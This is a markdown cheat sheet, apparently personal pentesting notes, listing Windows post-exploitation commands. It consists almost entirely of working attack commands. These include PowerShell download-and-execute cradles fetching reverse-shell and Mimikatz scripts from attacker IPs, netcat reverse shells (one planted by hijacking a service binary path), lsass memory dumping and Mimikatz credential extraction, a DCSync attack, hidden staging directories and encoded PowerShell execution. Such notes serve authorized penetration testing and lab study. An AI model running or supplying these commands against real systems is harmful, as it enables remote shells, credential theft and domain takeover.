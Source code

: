 

- [File Transfer To Windows](#file-transfer-to-windows)
- [Checking File permissions](#checking-file-permissions)
- [Changing Service Path](#changing-service-path)
- [Mimikatz to dump creds](#mimikatz-to-dump-creds)
- [Checking Administrator Perms with Powershell](#checking-administrator-perms-with-powershell)
- [Running specific powershell script](#running-specific-powershell-script)
- [Shares on Windows](#shares-on-windows)
  - [CMD](#cmd)
  - [PowerShell](#powershell)
- [Dumping Credentials from lsass.exe Mimikatz.ps1](#dumping-credentials-from-lsassexe-mimikatzps1)
- [DC Sync Attack with Mimikatz](#dc-sync-attack-with-mimikatz)
- [Mimikatz with memory dump](#mimikatz-with-memory-dump)
- [Enumerating Windows Services](#enumerating-windows-services)
  - [CMD](#cmd-1)
  - [Powershell](#powershell-1)
  - [Dumping programs and searching the .dmp file (ProcDump)](#dumping-programs-and-searching-the-dmp-file-procdump)
- [Base64 in PowerShell](#base64-in-powershell)

### File Transfer To Windows
```powershell
# Useful directories
C:\\Temp\\.hidden
C:\\windows\\system32\\spool\\drivers\\color\\.hidden

# Prefix the invoke command with the following to speed up download
powershell.exe $ProgressPreference = 'SilentlyContinue'; 

# Download item
Invoke-WebRequest http://$IP/<FILE> -OutFile <FILE> # download and specify output

powershell -command "IEX(New-Object Net.webClient).DownloadString('http://10.10.14.30/Invoke-PowerShellTcp')" # download string

powershell -command "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.18:8000/Invoke-PowerShellTcp','.\Invoke-PowerShellTcp')" # download and specify output

powershell -command "IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')" # download and execute PS1

# Extract zip with Powershell (unzip)
powershell -command "Expand-Archive .\COMPILE.zip -DestinationPath .\"
```

```bash
# Upload with curl
curl -s -k -u <USER>:<PASS> -X PUT https://$IP/<FILE> --data-binary @<FILE> 
curl -s -k -u <USER>:<PASS> -X PUT https://$IP/<FILE> --data-binary "C:\Temp\nc64.exe <your_ip> <port> -e cmd.exe"
```

### Checking File permissions
```cmd
whoami /groups
.\accesschk.exe -uwcqv "NT AUTHORITY\SERVICE" * /accepteula
```

### Changing Service Path
```cmd
sc.exe config <SERVICE> bin="cmd /c start C:\Location\To\nc64.exe -e cmd $IP <PORT>"
sc.exe start <SERVICE>
```

### Mimikatz to dump creds
```bash
./mimikatz.exe "lsadump::dcsync /user:Administrator" "exit"
pypykatz lsa minidump lsass.DMP # Grabbing creds from a dump with pypykatz

mimikatz# sekurlsa::minidump lsass.DMP
mimikatz# sekurlsa::logonPasswords full
```

### Checking Administrator Perms with Powershell
```powershell
([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]"Administrator")
```



### Running specific powershell script
```powershell
powershell -noprofile -executionpolicy unrestricted -file install.ps1
```

### Shares on Windows
#### CMD
```batch
:: NOTE: a REM is a comment

:: View current network connections
net use

:: Add and mount share to X
net use X: \\<IP>\<SHARE_NAME> /USER:<USER> <PASSWORD> /PERSISTENT:YES
::example
net use X: \\10.10.14.18\share /user:guest guest
\\10.10.14.18\share\nc.exe -e cmd.exe 10.10.14.18 31336

:: Delete and unmount share on X
net use X: /delete

:: Delete cached Share credentials (explorer.exe may need to be reset)
net use * /d 

```

#### PowerShell
```powershell
### TODO ###
```

### Dumping Credentials from lsass.exe Mimikatz.ps1
```powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds

# Via a different version of powershell
powershell -version 2 IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds


# The command needed is:
sekurlsa::logonpasswords full
```

### DC Sync Attack with Mimikatz
```powershell
./mimikatz.exe "lsadump::dcsync /user:Administrator" "exit"
```

### Mimikatz with memory dump 
(use Sysinternal's ProcDump for this task)
```powershell
# Memory dump of process with Procdump (target a high priv application)
.\procdump.exe -accepteula -ma lsass.exe lsass.dmp # where -ma writes a dump file with all process memory of lsass.exe

# With pypykatz
pypykatz lsa minidump lsass.DMP

# With mimikatz
.\mimikatz.exe "sekurlsa::minidump C:\Temp\Desktop\lsass.dmp" "sekurlsa::logonPasswords" "exit" # external

sekurlsa::minidump lsass.DMP # if entering mimikatz
sekurlsa::logonPasswords full # if entering mimikatz
```

### Enumerating Windows Services
#### CMD
```batch
:: TODO ::
```

#### Powershell
```powershell
# service enumeration
Get-Service
Get-Process -name *
ps
# TODO # (WITH WMIC)
```

#### Dumping programs and searching the .dmp file (ProcDump)
```powershell
.\procdump.exe -accepteula -ma <PID>

.\strings.exe -accepteula <FILE>.dmp | findstr <SEARCH_TERM>

```

### Base64 in PowerShell
```powershell
# TO BASE64 ENCODING
$Command = "whoami"
$Encoded = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Command)) 
Write-Output $Encoded

# TO PLAINTEXT
$Command = "dwBoAG8AYQBtAGkA"
$Plaintext = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($Command)) # alternate command
Write-Output $Plaintext

# Execute
powershell.exe -E $ENCODED
powershell.exe /e $ENCODED
powershell.exe -EncodedCommand $ENCODED
```
* Additional Resource: https://raikia.com/tool-powershell-encoder/
